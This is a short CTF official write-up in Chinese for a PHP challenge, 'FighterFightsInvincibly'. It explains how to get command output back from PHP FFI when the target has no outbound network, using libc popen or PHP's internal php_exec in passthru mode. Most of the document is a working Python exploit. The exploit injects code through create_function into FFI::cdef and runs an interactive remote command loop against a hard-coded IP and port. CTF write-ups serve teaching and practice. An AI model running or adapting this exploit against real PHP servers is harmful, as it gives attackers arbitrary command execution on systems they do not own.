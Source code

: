 # FighterFightsInvincibly 官方wp

这里直接丢个exp,考点是无法出网的FFI,如何在执行命令的情况下输出回显.有两种方式,第一种是使用c里的popen,然后从管道中读取结果,一种是FFI中可以直接调用php源码中的函数,php_exec的type为3时对应的是passthru,直接将结果原始输出,当然师傅们也可能有其他的姿势,欢迎分享

```python
import requests

url = "http://173.82.206.142:8004/"

# data = {"fighter": "create_function", "fights": "", "invincibly": """}$e=FFI::cdef("void *popen(char*,char*);\\nvoid pclose(void*);\\nint fgetc(void*);","libc.so.6");$o = $e->popen($_REQUEST['cmd'],"r");$d="";while(($c=$e->fgetc($o))!=-1){$d.=str_pad(strval(dechex($c)),2,"0",0);}$e->pclose($o);echo hex2bin($d);/*"""}
data = {"fighter": "create_function", "fights": "", "invincibly": """}$e=FFI::cdef("int php_exec(int type, char *cmd);");$e->php_exec(3,$_REQUEST['cmd']);/*"""}

while 1:
    cmd = input("cmd:>")
    res = requests.post(url, data=data, params={"cmd": cmd})
    result = res.text.split("-->")[1]
    print(result)

```

